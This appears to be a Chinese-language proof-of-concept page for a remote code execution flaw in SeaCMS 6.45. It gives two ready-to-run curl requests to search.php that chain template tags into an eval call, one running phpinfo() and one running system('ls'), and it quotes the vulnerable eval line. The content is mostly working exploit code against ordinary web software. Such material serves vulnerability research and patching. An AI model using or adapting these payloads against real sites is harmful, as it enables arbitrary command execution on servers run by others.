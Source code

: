 ## seacms 6.45

### 代码执行漏洞

影响版本

* 6.45

参考链接

* [漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)

Poc

```
# phpinfo
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();'

# 执行 ls 命令
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("ls");'
```

关键代码

```
# payload 放在 IF 条件里，导致代码执行
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```

